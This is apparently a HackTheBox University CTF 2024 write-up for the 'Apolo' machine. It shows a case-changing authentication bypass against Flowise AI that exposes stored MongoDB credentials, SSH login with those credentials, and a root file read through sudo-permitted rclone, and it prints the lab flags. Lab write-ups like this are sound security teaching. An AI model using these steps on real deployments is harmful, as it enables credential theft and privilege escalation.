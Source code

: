 ```yaml
---
title: "Apolo"
description: "In the lawless expanse of the Frontier Cluster, Apolo serves as a beacon of security, working to safeguard the Frontier Cluster's assets from bounty hunters."
pubDate: 2024-12-17
ctf: "HackTheBox University CTF 2024"
category: "fullpwn"
author: "sealldev"
section: "CTFs"
image: "images/24-htbuni/icon.png"
---
```




#### User

Starting with a portscan, there are ports `80` and `22`.

I check out the webserver at `apolo.htb`:
![apolohome.png](images/24-htbuni/apolohome.png)

The about page references a subdomain: `ai.apolo.htb`.

Adding that to `/etc/hosts`, we can see it's using `Flowise AI`, but we can't access anything without credentials...

![apoloai.png](images/24-htbuni/apoloai.png)

Looking online, there is an existing [Authentication Bypass for `Flowise AI`](https://www.exploit-db.com/exploits/52001):
```
*POC:*
curl http://localhost:3000/Api/v1/credentials
For seamless authentication bypass. Use burpsuite feature Match and replace rules in proxy settings. Add rule Request first line api/v1 ==> API/V1
```

... lol


I setup Burp and add a match replace rule, then reload. Exploring we can see the credentials has some MongoDB credentials!

![apolomongocreds.png](images/24-htbuni/apolomongocreds.png)

The credentials contain a username and password pair for a user `lewis`:
```
mongodb+srv://lewis:C0mpl3xi3Ty!_W1n3@cluster0.mongodb.net/myDatabase?retryWrites=true&w=majority
```

We can then SSH as `lewis` for user!

User Flag: `HTB{llm_ex9l01t_4_RC3}`

#### Root

Looking for the root flag, I check `sudo -l`.

```bash
lewis@apolo:~$ sudo -l
Matching Defaults entries for lewis on apolo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lewis may run the following commands on apolo:
    (ALL : ALL) NOPASSWD: /usr/bin/rclone
```

Checking `rclone ` we have the ability to use `cat`, for example:
```bash
lewis@apolo:~$ rclone cat user.txt
2024/12/16 23:00:00 NOTICE: Config file "/home/lewis/.config/rclone/rclone.conf" not found - using defaults
HTB{llm_ex9l01t_4_RC3}
```

Let's try read `/root/root.txt` with the `sudo` version.
```bash
lewis@apolo:~$ sudo /usr/bin/rclone cat /root/root.txt
2024/12/16 22:59:05 NOTICE: Config file "/root/.config/rclone/rclone.conf" not found - using defaults
HTB{cl0n3_rc3_f1l3}
```

Flag: `HTB{cl0n3_rc3_f1l3}`